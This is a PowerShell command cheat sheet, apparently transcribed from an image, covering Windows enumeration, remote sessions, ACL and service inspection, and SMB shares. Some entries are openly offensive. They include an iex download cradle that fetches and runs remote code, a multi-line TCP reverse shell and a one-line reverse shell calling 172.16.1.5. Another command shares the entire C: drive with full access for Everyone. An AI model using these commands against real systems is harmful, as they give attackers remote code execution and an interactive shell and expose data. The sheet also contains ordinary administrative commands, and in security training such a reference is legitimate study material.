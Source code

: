 ```powershell
PS> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
PS> $ExecutionContext.SessionState.LanguageMode
# create credential
PS> $username = 'TestAdminUser'
PS> $password = 'TestAdminPassword'
PS> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS> $SecPassword = ConvertTo-SecureString 'TestNewPassword' -AsPlainText -Force
PS> $Cred = New-Object System.Management.Automation.PSCredential('HOGE\TestUser', $SecPassword)
# access
PS> New-PSSession -ComputerName TestHost.HOGE.com
PS> Enter-PSSession -ComputerName TestHost.HOGE.com
PS> Enter-PSSession -Computername TARGET -Credential $credential
## or
PS> Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
# download
PS> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
# Reverse Shell
PS> $client = New-Object System.Net.Sockets.TCPClient('XXX.XXX.XXX.XXX',RPORT);
PS> $stream = $client.GetStream()
PS> [byte[]]$bytes = 0..65535|%{0}
PS> while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.PS> ASCIIEncoding).GetString($bytes,0, $i)
PS> $sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' +  (pwd).Path + '> '
PS> $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
PS> $stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
# Reverse Shell - One Line
PS> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('172.16.1.5,888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
# List SIDs for local users
PS> Get-WmiObject Win32_UserAccount | Select-Object Name, SID
# List SIDs for local groups
PS> Get-WmiObject Win32_Group | Select-Object Name, SID
# privilege check
PS> whoami /priv
# check ACL
PS> $sharedFolderPath = 'C:\Users\TestUser\TestShareFolder';
PS> icacls $sharedFolderPath /inheritance:r
PS> icacls .\"TestFolder"
PS> icacls c:\windows
PS> icacls c:\users
PS> $securityGroupName = 'TestGroup'
PS> icacls $sharedFolderPath /grant "${securityGroupName}:(OI)(CI)M", "${securityGroupName}:(OI)(CI)RX", "${securityGroupName}:(OI)(CI)R", "${securityGroupName}:(OI)(CI)W"
# Service
PS> Get-Service
PS> Get-Service | ? {$_.DisplayName -like "*Hoge*"}
PS> Get-Service | ? {$_.Status -eq "Running"} | select -First 2 | fl
PS> Get-Service | ? {$_.Name -like "*Update*"} | select -First 2 | fl
PS> Get-Service | ? {$_.Status -eq "Running"} | echo | sls "update"
PS> Get-Service | ? {$_.DisplayName -like "*Update*"} | select -First 4 | fl
PS> Get-Service -Name HogeService | fl
# Share
PS> Get-WmiObject Win32_Share | Select-Object Name, Path
PS> Get-SmbShare | Select-Object Name, Path
PS> New-Item -ItemType Directory -Path .\"TestShareFolder"
PS> New-SmbShare -Path .\ -Name "TestShareFolder"
PS> New-SmbShare -Path c:\ -Name "TestShareFolder" -FullAccess 'Everyone'
```